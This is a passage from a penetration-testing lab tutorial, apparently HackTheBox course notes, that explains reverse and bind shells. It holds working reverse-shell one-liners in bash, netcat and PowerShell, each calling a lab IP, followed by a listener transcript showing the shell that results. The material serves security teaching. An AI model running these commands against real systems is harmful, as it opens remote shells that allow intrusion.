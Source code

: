 ```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our `netcat` listener:

```shell
gitblanc@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, after we received a connection on our `netcat` listener, we were able to type our command and directly get its output back, right in our machine.

A `Reverse Shell` is handy when we want to get a quick, reliable connection to our compromised host. However, a `Reverse Shell` can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.

## Bind Shell

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.

Once we execute a `Bind Shell Command`, it will start listening on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port. We have to connect to that port with `netcat`, and we will get control through a shell on that system.

#### Bind Shell Command

Once again, we can utilize [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/) to find a proper command to start our bind shell.

>[!Note]
>we will start a listening connection on port `1234` on the remote host, with IP `0.0.0.0` so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:
